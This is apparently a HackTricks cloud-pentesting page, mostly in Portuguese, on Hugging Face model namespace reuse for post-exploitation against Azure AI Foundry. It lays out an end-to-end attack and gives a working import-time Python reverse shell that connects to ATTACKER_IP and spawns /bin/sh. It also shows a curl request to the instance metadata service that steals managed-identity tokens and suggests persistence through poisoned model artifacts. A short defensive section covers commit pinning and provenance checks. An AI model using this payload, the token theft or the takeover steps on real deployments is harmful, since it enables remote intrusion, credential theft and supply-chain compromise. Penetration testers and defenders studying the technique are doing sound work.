 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Cenário

- O Azure AI Foundry Model Catalog inclui muitos modelos do Hugging Face (HF) para implantação com um clique.
- Identificadores de modelo HF são Author/ModelName. Se um autor/org HF for deletado, qualquer pessoa pode re-registrar esse autor e publicar um modelo com o mesmo ModelName no caminho legado.
- Pipelines e catálogos que puxam apenas pelo nome (sem pinagem de commit/integridade) irão resolver para repos controlados por atacantes. Quando o Azure implanta o modelo, loader code pode executar no ambiente do endpoint, concedendo RCE com as permissões desse endpoint.

Casos comuns de HF takeover:
- Remoção do proprietário: Caminho antigo retorna 404 até o takeover.
- Transferência de propriedade: Caminho antigo retorna 307 para o novo autor enquanto o autor antigo existe. Se o autor antigo for mais tarde deletado e re-registrado, o redirecionamento quebra e o repo do atacante é servido no caminho legado.

## Identificando Namespaces Reutilizáveis (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-end Attack Flow against Azure AI Foundry

1) No Model Catalog, encontre modelos HF cujos autores originais foram excluídos ou transferidos (antigo autor removido) no HF.
2) Re-registre o autor abandonado no HF e recrie o ModelName.
3) Publique um repo malicioso com loader code que é executado na importação ou requer trust_remote_code=True.
4) Implemente o legado Author/ModelName a partir do Azure AI Foundry. A plataforma puxa o repo do atacante; o loader é executado dentro do container/VM do endpoint Azure, resultando em RCE com permissões do endpoint.

Exemplo de fragmento de payload executado na importação (apenas demonstração):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Implantações do AI Foundry que integram o HF normalmente clonam e importam módulos de repo referenciados pela config do modelo (por exemplo, auto_map), o que pode desencadear execução de código. Alguns caminhos exigem trust_remote_code=True.
- O acesso normalmente corresponde às permissões da managed identity/service principal do endpoint. Trate-o como um initial access foothold para acesso a dados e movimento lateral dentro do Azure.

## Dicas de pós-exploração (Azure Endpoint)

- Enumere variáveis de ambiente e MSI endpoints para tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Verifique o armazenamento montado, os artefatos de modelo e os serviços Azure acessíveis com o token adquirido.
- Considere persistência deixando artefatos de modelo envenenados caso a plataforma re-puxe do HF.

## Orientação defensiva para usuários do Azure AI Foundry

- Fixe modelos por commit ao carregar do HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espelhar modelos HF verificados em um registro interno confiável e implantar a partir daí.
- Escanear continuamente bases de código e defaults/docstrings/notebooks em busca de Author/ModelName hard-coded que foram excluídos/transferidos; atualizar ou fixar.
- Validar a existência do autor e a proveniência do modelo antes da implantação.

## Heurísticas de Reconhecimento (HTTP)

- Autor excluído: página do autor 404; caminho do modelo legado 404 até a tomada de controle.
- Modelo transferido: caminho legado 307 para novo autor enquanto o autor antigo existe; se o autor antigo for depois excluído e re-registrado, o caminho legado serve conteúdo do atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referências Cruzadas

- Veja a metodologia mais ampla e notas sobre cadeia de suprimentos:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referências

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
